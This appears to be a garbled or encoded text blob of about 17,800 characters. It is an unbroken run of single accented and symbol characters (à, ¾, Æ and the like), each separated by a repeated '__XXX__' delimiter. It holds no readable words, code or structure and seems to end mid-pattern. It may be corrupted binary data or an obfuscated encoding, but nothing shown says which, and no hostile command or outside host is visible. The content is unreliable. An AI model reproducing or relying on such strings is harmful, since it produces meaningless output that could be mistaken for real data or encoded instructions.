__XXX__à__XXX__—__XXX__¾__XXX__¾__XXX__¬__XXX__Æ__XXX__¬__XXX__Ü__XXX__Õ__XXX__x__XXX__µ__XXX__³__XXX__§__XXX__æ__XXX__ª__XXX__´__XXX__š__XXX__à__XXX__ä__XXX__Ù__XXX__´__XXX__¦__XXX__›__XXX__¾__XXX__´__XXX__Š__XXX__¢__XXX__¡__XXX__Ù__XXX__¿__XXX__®__XXX__¦__XXX__½__XXX__¸__XXX__½__XXX__Ÿ__XXX__¿__XXX__­__XXX__˜__XXX__ç__XXX__†__XXX__É__XXX__Á__XXX__â__XXX__³__XXX__»__XXX__³__XXX__ª__XXX__´__XXX__­__XXX__º__XXX__i__XXX__á__XXX__‰__XXX__¦__XXX__¸__XXX__Ù__XXX__¶__XXX__¨__XXX__¸__XXX__»__XXX____XXX__·__XXX__£__XXX__x__XXX__¢__XXX__„__XXX__Õ__XXX__Ë__XXX__â__XXX__Å__XXX__Î__XXX__°__XXX__Ú__XXX__¹__XXX__ˆ__XXX__ __XXX__€__XXX__ç__XXX__„__XXX__À__XXX__µ__XXX__¶__XXX__Ô__XXX__Õ__XXX__Ó__XXX__·__XXX____XXX__›__XXX__º__XXX__”__XXX__Ê__XXX__w__XXX__½__XXX__Â__XXX__É__XXX__ß__XXX__Û__XXX__°__XXX__Ç__XXX__«__XXX__‡__XXX__µ__XXX__i__XXX__¹__XXX__b__XXX__´__XXX__¤__XXX__ __XXX__×__XXX__­__XXX__©__XXX__®__XXX__”__XXX__Å__XXX__Ý__XXX__x__XXX__§__XXX__c__XXX__Á__XXX__Â__XXX__Ð__XXX__À__XXX__Ê__XXX__º__XXX__š__XXX__€__XXX__Æ__XXX__¸__XXX__a__XXX__ð__XXX____XXX__¿__XXX__­__XXX__›__XXX__È__XXX__¦__XXX__¬__XXX__»__XXX__¡__XXX__¡__XXX__½__XXX__¡__XXX__Ý__XXX__„__XXX__Û__XXX____XXX__˜__XXX__¤__XXX__Õ__XXX__Ú__XXX__Ñ__XXX__€__XXX__¸__XXX__¡__XXX__ž__XXX__É__XXX__¢__XXX__Ë__XXX__„__XXX__¼__XXX__ß__XXX__Í__XXX__¸__XXX__š__XXX__š__XXX__ƒ__XXX__œ__XXX__s__XXX__Ü__XXX__g__XXX____XXX____XXX__Ú__XXX__â__XXX__Ü__XXX__¯__XXX__Ø__XXX__•__XXX__¸__XXX__œ__XXX__f__XXX__Ë__XXX__ƒ__XXX__Ö__XXX__‡__XXX__¡__XXX__Ô__XXX__°__XXX__©__XXX__Û__XXX____XXX__œ__XXX__Ø__XXX__y__XXX__ê__XXX__}__XXX__É__XXX__Š__XXX__Â__XXX__×__XXX__·__XXX__™__XXX__©__XXX__y__XXX__ª__XXX__â__XXX__”__XXX__»__XXX__‹__XXX__¿__XXX__ __XXX__à__XXX__×__XXX__—__XXX__¬__XXX__¾__XXX__—__XXX__¤__XXX__¿__XXX__ˆ__XXX__Å__XXX__t__XXX__§__XXX__”__XXX__»__XXX__¨__XXX__§__XXX__œ__XXX__º__XXX__—__XXX__Ÿ__XXX__ __XXX__…__XXX__Ý__XXX__£__XXX__Ê__XXX__…__XXX__á__XXX__½__XXX__¶__XXX__º__XXX__«__XXX__–__XXX__Ç__XXX__ __XXX__x__XXX__§__XXX__•__XXX__¦__XXX__„__XXX__Ü__XXX__¿__XXX__™__XXX__°__XXX__Î__XXX__˜__XXX__¢__XXX__±__XXX__Š__XXX__§__XXX__‚__XXX__×__XXX__˜__XXX__¡__XXX__µ__XXX__Î__XXX__´__XXX__»__XXX__—__XXX__Ã__XXX__Ò__XXX__‚__XXX__Î__XXX__b__XXX__É__XXX__š__XXX__Â__XXX__§__XXX__ß__XXX__¿__XXX__«__XXX__¿__XXX__¤__XXX__¢__XXX__…__XXX__¿__XXX__^__XXX__ê__XXX__Ç__XXX__Ë__XXX__Ù__XXX__Ø__XXX__Þ__XXX__×__XXX____XXX__Ê__XXX__â__XXX__{__XXX__ª__XXX__€__XXX__µ__XXX__‹__XXX__¶__XXX__É__XXX__–__XXX__ª__XXX__Ñ__XXX__y__XXX__„__XXX__²__XXX__ž__XXX__Î__XXX__œ__XXX__Þ__XXX__§__XXX__±__XXX__¤__XXX__¯__XXX__¯__XXX__±__XXX__”__XXX__È__XXX__¯__XXX__~__XXX__è__XXX__i__XXX__¥__XXX__•__XXX__µ__XXX__Ã__XXX__ž__XXX__Ð__XXX__Ü__XXX__~__XXX__½__XXX__Ü__XXX__¢__XXX__ë__XXX__t__XXX__µ__XXX__~__XXX__˜__XXX__³__XXX__¸__XXX__•__XXX____XXX__¼__XXX__ __XXX__Ö__XXX__•__XXX__Ø__XXX__|__XXX__Ô__XXX__œ__XXX__Ý__XXX____XXX__§__XXX__Ö__XXX__Ü__XXX__­__XXX__«__XXX__Ý__XXX__‡__XXX__Ï__XXX__~__XXX__â__XXX__º__XXX__Ì__XXX__ë__XXX__§__XXX__›__XXX__Ì__XXX____XXX__ __XXX__—__XXX__w__XXX__ë__XXX__g__XXX__ª__XXX__Ä__XXX__à__XXX__¥__XXX__œ__XXX__Û__XXX__×__XXX__š__XXX__™__XXX__Å__XXX__[__XXX__Û__XXX__ž__XXX__Ú__XXX__º__XXX__ __XXX__×__XXX____XXX__½__XXX__¯__XXX__¹__XXX__Ç__XXX__´__XXX____XXX__Å__XXX__‚__XXX__¦__XXX__ __XXX__¬__XXX__¹__XXX__™__XXX__š__XXX__Ç__XXX__€__XXX__˜__XXX__â__XXX____XXX__®__XXX__}__XXX__¸__XXX__…__XXX__³__XXX__Õ__XXX__­__XXX__œ__XXX__Ç__XXX__|__XXX__ˆ__XXX__Í__XXX__e__XXX__É__XXX__j__XXX__ß__XXX__¿__XXX__³__XXX__æ__XXX__Ö__XXX__©__XXX__»__XXX__™__XXX____XXX__½__XXX__w__XXX__à__XXX__•__XXX__ë__XXX__›__XXX__Ê__XXX__¥__XXX__”__XXX__Í__XXX__Í__XXX__ª__XXX__›__XXX__Ä__XXX__’__XXX__¬__XXX__…__XXX__Â__XXX__Í__XXX__¸__XXX__½__XXX__¾__XXX__ß__XXX__•__XXX__™__XXX____XXX__Ÿ__XXX__q__XXX__Ù__XXX__w__XXX__á__XXX__š__XXX__­__XXX__Ô__XXX__¸__XXX__ß__XXX__¹__XXX__•__XXX__Ë__XXX__Ý__XXX__‡__XXX__§__XXX__y__XXX__Ë__XXX__Ê__XXX__¡__XXX__Á__XXX__™__XXX__°__XXX____XXX__Â__XXX__Ç__XXX__¸__XXX__{__XXX__ñ__XXX__b__XXX__§__XXX__¸__XXX__Õ__XXX__´__XXX__¦__XXX__±__XXX__µ__XXX__Ž__XXX__¾__XXX__Ó__XXX__ƒ__XXX__Ü__XXX__w__XXX__ª__XXX__½__XXX__—__XXX__¹__XXX__—__XXX__š__XXX__¦__XXX__|__XXX__À__XXX__Ö__XXX__¦__XXX__Æ__XXX__z__XXX__Ä__XXX__¡__XXX__¿__XXX__¦__XXX__¾__XXX__Ô__XXX__°__XXX____XXX__ˆ__XXX__á__XXX__¥__XXX__½__XXX__…__XXX__¶__XXX__£__XXX__Ñ__XXX__Ù__XXX__Ê__XXX__«__XXX__Ï__XXX__“__XXX__Š__XXX__Í__XXX__[__XXX__Ð__XXX__•__XXX__ì__XXX__¤__XXX__Þ__XXX__¾__XXX__­__XXX__›__XXX__¬__XXX__y__XXX__ž__XXX__½__XXX__b__XXX__Ï__XXX____XXX__ß__XXX__È__XXX__Ù__XXX__´__XXX__¦__XXX__×__XXX__Þ__XXX__½__XXX__™__XXX__Ö__XXX__e__XXX__¦__XXX__~__XXX__¼__XXX__Ì__XXX__É__XXX__é__XXX__Ü__XXX__¬__XXX__«__XXX__¸__XXX__Å__XXX__¯__XXX__¢__XXX__¨__XXX__„__XXX__É__XXX__Æ__XXX__ž__XXX__¢__XXX__›__XXX__È__XXX__¯__XXX__£__XXX__©__XXX__¡__XXX__|__XXX__å__XXX__Œ__XXX__æ__XXX__¿__XXX__Ý__XXX__·__XXX__—__XXX__¦__XXX__”__XXX__À__XXX__Ÿ__XXX__£__XXX__|__XXX__ç__XXX__|__XXX__·__XXX__ž__XXX__ª__XXX__¿__XXX__«__XXX__Ç__XXX__º__XXX__š__XXX__œ__XXX__µ__XXX__y__XXX__¼__XXX__Š__XXX__ä__XXX__Ì__XXX__¶__XXX__À__XXX__Ù__XXX__Ù__XXX__Ë__XXX__’__XXX__…__XXX__Ô__XXX__`__XXX__Ð__XXX__™__XXX__ã__XXX__§__XXX__Ò__XXX__ê__XXX__Æ__XXX__É__XXX__Ý__XXX__¸__XXX__—__XXX__Ñ__XXX__ª__XXX__Þ__XXX__v__XXX__¥__XXX__¥__XXX__Ð__XXX__è__XXX__Ø__XXX__›__XXX__Þ__XXX__ª__XXX__º__XXX__¼__XXX__˜__XXX__Í__XXX__„__XXX__¦__XXX__¿__XXX__¼__XXX__â__XXX__¸__XXX__¼__XXX__Ö__XXX__¯__XXX__‰__XXX__Ÿ__XXX__~__XXX__ñ__XXX__{__XXX__Ø__XXX__ __XXX__²__XXX__È__XXX__ª__XXX__Ì__XXX__š__XXX__Á__XXX__¿__XXX__·__XXX__›__XXX__ì__XXX__ž__XXX__Ö__XXX__¹__XXX__Ì__XXX__Ä__XXX__Ý__XXX__¸__XXX__Ø__XXX__š__XXX__¨__XXX__Ü__XXX__˜__XXX__¸__XXX__‡__XXX__¼__XXX__º__XXX__¶__XXX__¶__XXX__½__XXX__”__XXX__Ð__XXX__³__XXX__—__XXX__®__XXX__¦__XXX__­__XXX____XXX__½__XXX__Ä__XXX____XXX__´__XXX__µ__XXX__½__XXX__¨__XXX____XXX__§__XXX__ã__XXX__c__XXX__Í__XXX__¥__XXX__É__XXX__µ__XXX__©__XXX__¡__XXX____XXX__¬__XXX__«__XXX__“__XXX__‰__XXX__Ä__XXX__e__XXX__Î__XXX__‡__XXX__È__XXX__š__XXX__½__XXX__Ù__XXX__¯__XXX__©__XXX__½__XXX__y__XXX__©__XXX__¢__XXX__‰__XXX__Ç__XXX__z__XXX__è__XXX__ž__XXX__­__XXX__å__XXX__Ó__XXX__Í__XXX__š__XXX__®__XXX__–__XXX__Ý__XXX__™__XXX__Å__XXX__ __XXX__Û__XXX__¥__XXX__Ý__XXX__Ù__XXX__¾__XXX__›__XXX__š__XXX__ª__XXX__‹__XXX__á__XXX__ž__XXX__È__XXX__k__XXX__æ__XXX__¤__XXX__œ__XXX__Æ__XXX__¶__XXX__±__XXX__˜__XXX__œ__XXX__†__XXX__Ù__XXX__‰__XXX__Ú__XXX__ž__XXX__Ý__XXX__Ê__XXX__Û__XXX__¥__XXX__ª__XXX__¹__XXX__ª__XXX__¢__XXX__Ä__XXX__´__XXX__t__XXX__¦__XXX__¡__XXX__º__XXX__§__XXX__ž__XXX__¼__XXX__Û__XXX__š__XXX__º__XXX__‹__XXX__›__XXX__ß__XXX__”__XXX__à__XXX__ƒ__XXX____XXX__‰__XXX__â__XXX__é__XXX__¹__XXX__Ç__XXX__¦__XXX__ž__XXX__œ__XXX__Ñ__XXX__‘__XXX__Ã__XXX__l__XXX__Ä__XXX__Æ__XXX__À__XXX__Á__XXX__Û__XXX__Ð__XXX__É__XXX__‘__XXX__Á__XXX__À__XXX__ˆ__XXX__¯__XXX__«__XXX__â__XXX__¡__XXX__¬__XXX__ç__XXX__Ù__XXX__É__XXX__Í__XXX__x__XXX__ž__XXX__—__XXX__e__XXX__Á__XXX__‰__XXX__¿__XXX__©__XXX__°__XXX__Ú__XXX__Ö__XXX__¹__XXX__Ö__XXX__y__XXX__‰__XXX__Æ__XXX__…__XXX__ç__XXX__œ__XXX__µ__XXX__º__XXX__¼__XXX__é__XXX__ß__XXX__Ó__XXX__œ__XXX__¼__XXX____XXX__á__XXX__•__XXX__æ__XXX__y__XXX__Ù__XXX__§__XXX__Ù__XXX__¥__XXX__¼__XXX__œ__XXX__É__XXX__“__XXX__ž__XXX__Í__XXX__š__XXX__Ì__XXX__ª__XXX__»__XXX__†__XXX__²__XXX__á__XXX__©__XXX__½__XXX__¹__XXX__–__XXX__‹__XXX__½__XXX__i__XXX__à__XXX__˜__XXX__¡__XXX__ˆ__XXX__Ú__XXX__È__XXX__Ô__XXX__§__XXX__Þ__XXX__¢__XXX__­__XXX__­__XXX__›__XXX__Í__XXX__k__XXX__Ä__XXX__š__XXX__š__XXX__Ô__XXX__—__XXX__­__XXX__Ñ__XXX__€__XXX__Á__XXX__Æ__XXX__i__XXX__¬__XXX__ __XXX__Á__XXX__§__XXX__Ë__XXX____XXX__š__XXX__œ__XXX__³__XXX____XXX__»__XXX__ã__XXX__b__XXX__è__XXX__œ__XXX__´__XXX__µ__XXX__¬__XXX__³__XXX__ª__XXX__Ö__XXX__ª__XXX__Š__XXX__¡__XXX__Õ__XXX__z__XXX__Á__XXX__–__XXX__ê__XXX__Ê__XXX__Ð__XXX__¸__XXX__¹__XXX__¾__XXX__¸__XXX__™__XXX__˜__XXX__ä__XXX__b__XXX__Í__XXX__£__XXX__Õ__XXX__ƒ__XXX__·__XXX__Ä__XXX__®__XXX__”__XXX__§__XXX__š__XXX__¶__XXX__³__XXX__q__XXX__¢__XXX__©__XXX__á__XXX__Ä__XXX__œ__XXX__à__XXX__Ô__XXX____XXX__º__XXX__‚__XXX__¸__XXX__Ù__XXX__‡__XXX__ñ__XXX__|__XXX__Ì__XXX__ˆ__XXX__Á__XXX__Æ__XXX__Ú__XXX__½__XXX__Ó__XXX__«__XXX__š__XXX__µ__XXX__u__XXX__æ__XXX__u__XXX__¶__XXX__´__XXX__â__XXX__ä__XXX__É__XXX__Ì__XXX__™__XXX__º__XXX__É__XXX__æ__XXX__h__XXX__Å__XXX__­__XXX__¨__XXX__ˆ__XXX__³__XXX__á__XXX____XXX__Û__XXX__Õ__XXX__}__XXX__˜__XXX__æ__XXX__[__XXX__¨__XXX__¡__XXX__Õ__XXX__Ä__XXX__½__XXX__´__XXX__ª__XXX__»__XXX__¼__XXX____XXX__™__XXX__Þ__XXX__g__XXX__ñ__XXX__€__XXX__é__XXX__Í__XXX__½__XXX__Û__XXX__Þ__XXX__˜__XXX__Ø__XXX__¡__XXX__ž__XXX__Û__XXX__¡__XXX__ï__XXX__ª__XXX__à__XXX__¤__XXX__±__XXX__ë__XXX__Û__XXX__¸__XXX__½__XXX__œ__XXX__Œ__XXX__¥__XXX__}__XXX__Ú__XXX__£__XXX__³__XXX__Å__XXX__Ü__XXX__É__XXX__•__XXX__¾__XXX__»__XXX__´__XXX__§__XXX__¥__XXX__i__XXX__Ë__XXX__„__XXX__ì__XXX__º__XXX__Ô__XXX__à__XXX__Þ__XXX__Ô__XXX__©__XXX__¿__XXX__‰__XXX__—__XXX__i__XXX__ð__XXX____XXX__å__XXX__À__XXX__Ó__XXX__Ý__XXX__Þ__XXX__œ__XXX__Þ__XXX____XXX__Î__XXX__Ã__XXX__ __XXX__¨__XXX__v__XXX__Ì__XXX__À__XXX__¾__XXX__ë__XXX__˜__XXX__´__XXX__É__XXX__²__XXX__ __XXX__Þ__XXX__d__XXX__É__XXX__š__XXX__ç__XXX__Ê__XXX__À__XXX__Ä__XXX__±__XXX__Ì__XXX__¼__XXX__¶__XXX__½__XXX__Ö__XXX__‚__XXX__î__XXX__~__XXX__Ü__XXX__š__XXX__³__XXX__ë__XXX__É__XXX__¨__XXX__º__XXX__ª__XXX__Š__XXX__¾__XXX__a__XXX__Ï__XXX__©__XXX__Æ__XXX__‡__XXX__—__XXX__¥__XXX__­__XXX__Ð__XXX__µ__XXX__°__XXX__©__XXX__Æ__XXX__“__XXX__¾__XXX__…__XXX__¾__XXX__©__XXX__ª__XXX__Ö__XXX__•__XXX__¼__XXX____XXX__{__XXX__À__XXX__Õ__XXX__—__XXX__Ý__XXX__§__XXX__×__XXX__Ã__XXX__á__XXX__»__XXX__œ__XXX__Ú__XXX__¶__XXX__‚__XXX__¨__XXX__Þ__XXX__¥__XXX__Ã__XXX__„__XXX__á__XXX__Ä__XXX__À__XXX__¿__XXX__”__XXX__¯__XXX__ª__XXX__›__XXX__ª__XXX__¹__XXX__•__XXX__Ñ__XXX__‹__XXX__¨__XXX__‚__XXX__Ø__XXX__´__XXX__Ñ__XXX__ž__XXX__š__XXX__£__XXX__Â__XXX__³__XXX__q__XXX__Ð__XXX__j__XXX__Ô__XXX__Œ__XXX__Ú__XXX__å__XXX__—__XXX__–__XXX__—__XXX__œ__XXX__Å__XXX__Û__XXX__}__XXX__è__XXX____XXX__Ô__XXX__„__XXX__ __XXX__µ__XXX__¸__XXX__¼__XXX__§__XXX__Ã__XXX__‰__XXX__Ú__XXX__ž__XXX__Ù__XXX__j__XXX__Å__XXX__Š__XXX__°__XXX____XXX__”__XXX__²__XXX__¦__XXX____XXX__Á__XXX__Þ__XXX__œ__XXX__¾__XXX__k__XXX__½__XXX__§__XXX__Õ__XXX__ã__XXX__®__XXX__±__XXX__§__XXX__µ__XXX__Í__XXX__¼__XXX__|__XXX__Ë__XXX__e__XXX__Ú__XXX__‡__XXX__ž__XXX__Þ__XXX__¸__XXX__—__XXX__Æ__XXX__º__XXX__Á__XXX__Ã__XXX__h__XXX__Ï__XXX__˜__XXX__¨__XXX__¼__XXX__œ__XXX__Ú__XXX__¦__XXX__”__XXX__·__XXX__¸__XXX__‹__XXX__›__XXX__‚__XXX__Ú__XXX__›__XXX__«__XXX__¡__XXX__Ë__XXX__¤__XXX__°__XXX__É__XXX__Æ__XXX__~__XXX__»__XXX__—__XXX__–__XXX__Á__XXX__€__XXX__ª__XXX__Š__XXX__Í__XXX__¸__XXX__Ò__XXX__Ø__XXX__˜__XXX__|__XXX__©__XXX__Ù__XXX__”__XXX__î__XXX__¡__XXX__¸__XXX__¡__XXX__“__XXX__Ö__XXX__Ç__XXX__µ__XXX__Ó__XXX__¡__XXX__Ä__XXX__â__XXX__†__XXX__ç__XXX__ƒ__XXX__Á__XXX__¤__XXX__â__XXX__º__XXX__Ô__XXX__·__XXX__–__XXX__™__XXX__‹__XXX__Ô__XXX__ƒ__XXX__¢__XXX__f__XXX__»__XXX__Ê__XXX__¯__XXX__¼__XXX__š__XXX__»__XXX__·__XXX__£__XXX__Œ__XXX__³__XXX__}__XXX__å__XXX__j__XXX__©__XXX__”__XXX__³__XXX__Û__XXX__§__XXX__Í__XXX__Ô__XXX__¬__XXX__¼__XXX__°__XXX__‰__XXX__ç__XXX__ˆ__XXX__é__XXX__½__XXX__°__XXX__¨__XXX__¯__XXX__¾__XXX__Î__XXX__Ã__XXX__¾__XXX__Ð__XXX____XXX__¾__XXX__z__XXX__Á__XXX__‚__XXX__®__XXX__»__XXX__±__XXX__¼__XXX__•__XXX____XXX__¬__XXX__´__XXX__¨__XXX__ñ__XXX__|__XXX__¥__XXX__Ÿ__XXX__»__XXX__¨__XXX__Ô__XXX__Ñ__XXX__¬__XXX__¹__XXX__¼__XXX__°__XXX__“__XXX__É__XXX__Œ__XXX__«__XXX__È__XXX__É__XXX__×__XXX__¸__XXX__­__XXX__¸__XXX__±__XXX__­__XXX__Î__XXX__š__XXX__¯__XXX__i__XXX__¶__XXX__‡__XXX__©__XXX__ß__XXX__œ__XXX__Î__XXX__»__XXX__½__XXX__¼__XXX__¥__XXX__›__XXX__Ü__XXX__¨__XXX__Û__XXX__Â__XXX__—__XXX__Ã__XXX__¨__XXX__©__XXX__Þ__XXX__¸__XXX____XXX__Ø__XXX__”__XXX__Æ__XXX__j__XXX__Â__XXX__­__XXX__›__XXX__Ë__XXX__»__XXX__»__XXX__Ô__XXX__›__XXX____XXX__×__XXX__¨__XXX__Â__XXX__}__XXX__á__XXX__¡__XXX__Ÿ__XXX__º__XXX__­__XXX__¯__XXX__Æ__XXX__œ__XXX__¢__XXX__Î__XXX__g__XXX__ß__XXX__‰__XXX__»__XXX__–__XXX__—__XXX__¤__XXX__–__XXX__”__XXX__™__XXX__œ__XXX__¦__XXX__À__XXX__§__XXX__í__XXX__©__XXX__ë__XXX__´__XXX__Ù__XXX__Ù__XXX__Ì__XXX__Ò__XXX__¶__XXX__™__XXX__µ__XXX__æ__XXX__Ÿ__XXX__ê__XXX__…__XXX__¶__XXX__Í__XXX__µ__XXX__æ__XXX__ž__XXX__Ñ__XXX__¾__XXX__ž__XXX__¸__XXX__Â__XXX__{__XXX__­__XXX__Œ__XXX__´__XXX__½__XXX__á__XXX__«__XXX__”__XXX__¯__XXX__Ë__XXX__«__XXX__©__XXX__Ø__XXX__¨__XXX__à__XXX__Ÿ__XXX__³__XXX__Ã__XXX__ž__XXX__»__XXX__¬__XXX__—__XXX__É__XXX__Ÿ__XXX__¤__XXX__Ñ__XXX__ª__XXX__è__XXX__¢__XXX__Ä__XXX__Ë__XXX____XXX__Ü__XXX__Ð__XXX__Õ__XXX__•__XXX__±__XXX__š__XXX__²__XXX__§__XXX__é__XXX__›__XXX__è__XXX__¼__XXX__ª__XXX__¢__XXX__Ó__XXX__©__XXX__»__XXX__¹__XXX__Š__XXX__»__XXX__“__XXX__Ñ__XXX____XXX__¿__XXX__˜__XXX__É__XXX__ä__XXX__³__XXX__¶__XXX__Î__XXX__¿__XXX__–__XXX__º__XXX__Š__XXX__¼__XXX__™__XXX__¸__XXX__¹__XXX__Õ__XXX__é__XXX__Ë__XXX__Î__XXX__×__XXX__­__XXX__†__XXX__Î__XXX__ž__XXX__¾__XXX__¦__XXX__À__XXX__~__XXX__Í__XXX__Ô__XXX__±__XXX__­__XXX__»__XXX__–__XXX__¬__XXX__Í__XXX__z__XXX__ä__XXX__”__XXX__¨__XXX__¿__XXX__µ__XXX__º__XXX__Ê__XXX__•__XXX__½__XXX__|__XXX__˜__XXX__œ__XXX__g__XXX__Î__XXX__Œ__XXX__É__XXX__Á__XXX__²__XXX__Ú__XXX__¨__XXX__Ð__XXX__Ê__XXX__}__XXX__¤__XXX__¡__XXX__ƒ__XXX__Ë__XXX__‡__XXX__Ä__XXX__–__XXX__Ô__XXX__¦__XXX__ª__XXX__°__XXX__Ù__XXX____XXX__ __XXX__Ð__XXX__[__XXX__½__XXX__e__XXX__Ô__XXX__¢__XXX__·__XXX__Ë__XXX__™__XXX__­__XXX__™__XXX__‚__XXX__›__XXX__œ__XXX__…__XXX__»__XXX__l__XXX__á__XXX__œ__XXX__°__XXX__á__XXX__ª__XXX__–__XXX__•__XXX__¸__XXX__ª__XXX__Ã__XXX__t__XXX__Ï__XXX__}__XXX__à__XXX__˜__XXX__ž__XXX__¡__XXX__Ç__XXX__°__XXX__¯__XXX__‘__XXX__È__XXX__Ù__XXX____XXX__¯__XXX__ž__XXX__Å__XXX__»__XXX__Ÿ__XXX__è__XXX__Æ__XXX__Ê__XXX__“__XXX__š__XXX__£__XXX__Ù__XXX__›__XXX__°__XXX__©__XXX__ç__XXX__˜__XXX__­__XXX__Ê__XXX__©__XXX__š__XXX__º__XXX__‚__XXX__‡__XXX__µ__XXX__h__XXX__©__XXX__u__XXX____XXX__­__XXX__˜__XXX__«__XXX__²__XXX__§__XXX__Ñ__XXX__¸__XXX__¦__XXX__º__XXX__—__XXX__¬__XXX__­__XXX__Ú__XXX__¥__XXX__³__XXX__Ó__XXX__¬__XXX__¿__XXX__»__XXX__½__XXX__„__XXX__¿__XXX__`__XXX__ð__XXX__v__XXX__é__XXX__©__XXX__â__XXX__¦__XXX__Ì__XXX__Ô__XXX__¬__XXX____XXX__À__XXX__·__XXX__v__XXX__¢__XXX__˜__XXX__Ê__XXX__˜__XXX__¶__XXX__á__XXX__­__XXX__¾__XXX__È__XXX__ __XXX__Š__XXX__¼__XXX__…__XXX__Ñ__XXX__¨__XXX__Ö__XXX__Š__XXX__¾__XXX__£__XXX__Î__XXX__›__XXX__•__XXX__³__XXX____XXX__¾__XXX__‡__XXX__ì__XXX__j__XXX__Ü__XXX__š__XXX__°__XXX__ß__XXX__ž__XXX__ž__XXX__Î__XXX____XXX__Î__XXX__—__XXX__s__XXX__ç__XXX____XXX__Ê__XXX__˜__XXX__Ý__XXX__Ý__XXX__¯__XXX__˜__XXX__­__XXX__¾__XXX__¼__XXX__Ò__XXX__•__XXX__Í__XXX__y__XXX__³__XXX__ __XXX__Ê__XXX__¹__XXX__Ð__XXX__·__XXX__©__XXX__¶__XXX__ƒ__XXX__Ô__XXX__”__XXX__å__XXX__‚__XXX__Þ__XXX__«__XXX__µ__XXX__·__XXX__½__XXX__Û__XXX__¶__XXX__¿__XXX__ž__XXX__³__XXX__£__XXX__é__XXX__i__XXX__¨__XXX__¥__XXX__¬__XXX__¤__XXX__ž__XXX__š__XXX__Ö__XXX__”__XXX__Ç__XXX__±__XXX__ __XXX__Ç__XXX__i__XXX__â__XXX__§__XXX__Í__XXX__¶__XXX__¬__XXX__–__XXX__Ï__XXX__«__XXX__º__XXX__ž__XXX__z__XXX__Í__XXX__{__XXX__Ë__XXX__–__XXX__¹__XXX__¥__XXX__±__XXX__Æ__XXX__–__XXX____XXX__–__XXX__à__XXX__–__XXX__Ù__XXX__˜__XXX__â__XXX__–__XXX__Õ__XXX__Ê__XXX__·__XXX__¬__XXX__ª__XXX____XXX__Ê__XXX__×__XXX__§__XXX__¹__XXX__j__XXX__Ô__XXX__Ì__XXX__Ÿ__XXX__Ç__XXX__Ù__XXX__”__XXX__Ï__XXX__ __XXX__Î__XXX__â__XXX__ž__XXX__¦__XXX__g__XXX__è__XXX__¸__XXX__Ÿ__XXX__£__XXX__Ç__XXX__»__XXX__Î__XXX____XXX__©__XXX__Ü__XXX__˜__XXX__¸__XXX__ž__XXX__Û__XXX__‡__XXX__Ê__XXX__Ë__XXX__Û__XXX__×__XXX__Ê__XXX__²__XXX__­__XXX__·__XXX__|__XXX__¼__XXX__™__XXX__©__XXX__™__XXX__¯__XXX__À__XXX__Ç__XXX__œ__XXX__É__XXX__Œ__XXX__Ä__XXX__Ð__XXX__`__XXX__®__XXX__~__XXX__§__XXX__Ã__XXX__Ê__XXX__º__XXX__Ø__XXX__¦__XXX__½__XXX__˜__XXX__‡__XXX__Õ__XXX__¡__XXX__ª__XXX__ƒ__XXX__é__XXX__Í__XXX__Ì__XXX__á__XXX__˜__XXX__¨__XXX__Ó__XXX__ª__XXX__™__XXX__½__XXX__[__XXX__Ñ__XXX__^__XXX__§__XXX__Ì__XXX__Ê__XXX__Ì__XXX__š__XXX__«__XXX__µ__XXX__¾__XXX__š__XXX__Ø__XXX__„__XXX__Æ__XXX__ž__XXX__µ__XXX__‚__XXX__«__XXX__ä__XXX__×__XXX__Ð__XXX__Ë__XXX__z__XXX__¡__XXX__·__XXX____XXX__Æ__XXX__©__XXX__¾__XXX__•__XXX__Ù__XXX__¡__XXX__ß__XXX__È__XXX__×__XXX__˜__XXX__¿__XXX__æ__XXX__~__XXX__ì__XXX__˜__XXX__¢__XXX__Ê__XXX__Î__XXX__å__XXX__›__XXX__ž__XXX__²__XXX__•__XXX__…__XXX__Ý__XXX__£__XXX__È__XXX__x__XXX__¶__XXX__«__XXX__Ñ__XXX__Ø__XXX__È__XXX__Ð__XXX__Ô__XXX__Œ__XXX__Â__XXX__Ï__XXX__¢__XXX__È__XXX__Ÿ__XXX__æ__XXX__£__XXX__¾__XXX__ë__XXX__›__XXX__™__XXX__©__XXX__»__XXX__ˆ__XXX__Ö__XXX__h__XXX__»__XXX__—__XXX__³__XXX__œ__XXX__º__XXX__ä__XXX__ª__XXX__½__XXX____XXX____XXX__£__XXX__Ã__XXX__’__XXX__®__XXX__‹__XXX__Ø__XXX__Ê__XXX__·__XXX__Ã__XXX__×__XXX__×__XXX__Þ__XXX__¯__XXX__…__XXX__Æ__XXX__œ__XXX__Å__XXX__›__XXX__Û__XXX__Í__XXX__´__XXX__Ë__XXX__·__XXX__œ__XXX__Ô__XXX__£__XXX__‰__XXX__£__XXX__c__XXX__Ë__XXX__c__XXX__¦__XXX____XXX__Ê__XXX__å__XXX____XXX__Ð__XXX__¬__XXX__¬__XXX__ __XXX__¸__XXX__£__XXX__Ú__XXX____XXX__¨__XXX__ƒ__XXX__Ÿ__XXX__´__XXX__Ø__XXX__Ê__XXX__­__XXX__x__XXX__†__XXX__å__XXX__—__XXX__ê__XXX__}__XXX__½__XXX__Å__XXX__Ì__XXX__µ__XXX__•__XXX__Î__XXX__¶__XXX__¯__XXX____XXX__­__XXX__a__XXX__â__XXX__~__XXX__¹__XXX__›__XXX__š__XXX__¿__XXX__Î__XXX__Í__XXX__¾__XXX____XXX__­__XXX__Ö__XXX__‘__XXX__­__XXX__‚__XXX__Ç__XXX__Ÿ__XXX__¡__XXX__è__XXX__¸__XXX__Ù__XXX__Ö__XXX__±__XXX__µ__XXX__›__XXX__r__XXX__ê__XXX__w__XXX__ê__XXX__ˆ__XXX__©__XXX__§__XXX__±__XXX__•__XXX__±__XXX__«__XXX__¸__XXX__Ñ__XXX__¦__XXX__á__XXX__j__XXX__©__XXX__½__XXX__ª__XXX__º__XXX__¨__XXX__Ï__XXX__›__XXX__‘__XXX__·__XXX__À__XXX__Š__XXX__ª__XXX__x__XXX__ª__XXX__¢__XXX__Ö__XXX__ª__XXX__·__XXX__Þ__XXX__Û__XXX____XXX__§__XXX__ß__XXX__¤__XXX__é__XXX__„__XXX__Ó__XXX__É__XXX__Ý__XXX__¨__XXX__•__XXX__§__XXX__µ__XXX__½__XXX__Å__XXX__²__XXX__i__XXX__¦__XXX__¢__XXX__¤__XXX__Ì__XXX__©__XXX__É__XXX__Þ__XXX__Ê__XXX__Ò__XXX__•__XXX__¨__XXX__œ__XXX__c__XXX__è__XXX__b__XXX__ß__XXX__¬__XXX__œ__XXX__É__XXX__š__XXX__¨__XXX__”__XXX__«__XXX__À__XXX__ß__XXX__z__XXX__á__XXX__j__XXX__¢__XXX__Â__XXX__À__XXX__¾__XXX____XXX__³__XXX__